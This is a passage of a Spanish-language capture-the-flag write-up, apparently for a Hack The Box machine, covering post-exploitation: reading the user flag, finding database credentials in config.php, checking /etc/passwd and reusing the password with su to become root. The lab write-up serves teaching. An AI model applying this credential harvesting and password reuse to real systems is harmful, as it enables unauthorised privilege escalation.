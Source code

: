 ```plaintext
❯ export TERM=xterm
❯ stty rows 42 columns 174
```

# Post-explotación

Lo primero, vamos a leer la flag del usuario.

```plaintext
❯ cat user.txt 
64f93146bf458bb8****************
```

Vemos varios archivos en el directorio en el que se aloja la web, uno de ellos nos llama especialmente la atención, el archivo `config.php`. Lo leemos y encontramos unas credenciales que parecen ser del usuario `uhc`.

```plaintext
❯ cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

Vamos a intentar convertirnos en el usuario `uhc`.

```plaintext
❯ su uhc
su: user uhc does not exist or the user entry does not contain all the required fields
```

Nos dice que el usuario `uhc` no existe, vamos a comprobarlo nosotros mismos.

```plaintext
❯ cat /etc/passwd | grep uhc
```

No nos da ningun output por lo que corroboramos que no existe el usuario `uhc`, intentemos probar la contraseña encontrada con el usuaro `root`.

```plaintext
❯ su root                   
Password: 
❯ whoami
root
❯ cat /root/root.txt 
79e15433aa1884bb****************
```
